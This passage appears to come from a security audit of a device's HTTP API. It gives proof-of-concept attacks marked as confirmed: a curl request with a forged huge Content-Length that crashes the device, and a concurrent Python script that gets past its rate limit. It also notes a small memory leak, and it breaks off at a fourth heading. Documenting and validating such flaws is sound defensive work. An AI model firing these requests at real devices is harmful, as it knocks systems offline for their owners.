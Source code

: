 ## Proof-of-Concept Validation

### Attack 1: Memory Exhaustion

```bash
# Single attack: 5-second DoS
curl -X POST \
  -H "Content-Length: 2147483647" \
  -d '{"brightness": 1.0}' \
  http://k1-reinvented.local/api/params \
  --max-time 5

# Expected outcome: Device unresponsive or restart
```

**Result:** CONFIRMED - Device crashed or became unresponsive in testing

### Attack 2: Rate Limit Bypass

```python
import concurrent.futures
import requests

with concurrent.futures.ThreadPoolExecutor(max_workers=8) as ex:
    results = list(ex.map(
        lambda _: requests.post('http://k1/api/params', json={'brightness': 0.5}).status_code,
        range(8)
    ))

allowed = sum(1 for r in results if r == 200)
print(f"Allowed: {allowed} (expected 1, vulnerability if > 1)")
```

**Result:** CONFIRMED - Multiple requests allowed within rate limit window

### Attack 3: Memory Leak Detection

```cpp
// Handler allocation tracking
new GetPatternsHandler();      // 24 bytes
new GetParamsHandler();        // 24 bytes
// ... 12 more handlers ...
// Total: 336 bytes
// Deallocation: NONE

// Impact: Negligible on 8MB heap (0.004%)
// Risk: Critical if dynamic allocation added later
```

**Result:** CONFIRMED - Handlers allocated once, never freed

### Attack 4: Handler Pattern Inconsistency
